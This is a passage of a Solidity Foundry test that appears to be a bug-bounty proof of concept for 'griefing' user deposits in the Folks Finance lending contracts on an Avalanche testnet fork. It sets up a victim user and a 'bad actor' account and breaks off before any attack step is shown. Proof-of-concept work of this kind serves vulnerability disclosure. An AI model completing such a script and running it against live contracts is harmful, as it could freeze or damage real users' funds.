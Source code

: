 ```solidity
        uint256 borrowRewardIndex; 
    }

    function getLoanPool(uint16 loanTypeId, uint8 poolId) external view returns (LoanPool memory);
}

contract FolksPOC_GriefUserDeposits is Test {
    uint256 avaxTestnetFork;

    string AVAX_FUJI_RPC_URL = vm.envString("AVAX_FUJI_RPC_URL");

    address constant USDC = 0x5425890298aed601595a70AB815c96711a31Bc65;

    address constant HUB_ADAPTER = 0xf472ab58969709De9FfEFaeFFd24F9e90cf8DbF9;

    address constant HUB = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140;

    address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;

    address constant SPOKE_CIRCLE_TOKEN = 0x89df7db4af48Ec7A84DE09F755ade9AF1940420b;

    address constant SPOKE_GAS_TOKEN = 0xBFf8b4e5f92eDD0A5f72b4b0E23cCa2Cc476ce2a;

    event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

    function setUp() public {
        avaxTestnetFork = vm.createFork(AVAX_FUJI_RPC_URL);

        vm.selectFork(avaxTestnetFork);
    }

    function testGriefUserDeposits() public {
        // fork block height for testing purposes
        //vm.rollFork(35161357);

        // set up user
        ISpoke.MessageParams memory params = ISpoke.MessageParams({ 
            adapterId: 1,
            returnAdapterId: 1,
            receiverValue: 0,
            gasLimit: 0,
            returnGasLimit: 0
        });

        address user = address(0x1111);
        deal(USDC, user, 100e6);
        vm.deal(user, 1 ether);

        bytes32 accountIdUser = keccak256(abi.encodePacked(user));
        vm.prank(user);
        ISpoke(SPOKE_COMMON).createAccount(params, accountIdUser, bytes32(0));

        // set up bad actor
        address badActor = address(0x69420);
        deal(USDC, badActor, 100e6);
        vm.deal(badActor, 1 ether);

        bytes32 accountIdBadActor = keccak256(abi.encodePacked(badActor));
        vm.prank(badActor);
        ISpoke(SPOKE_COMMON).createAccount(params, accountIdBadActor, bytes32(0));

        // conditions: 
```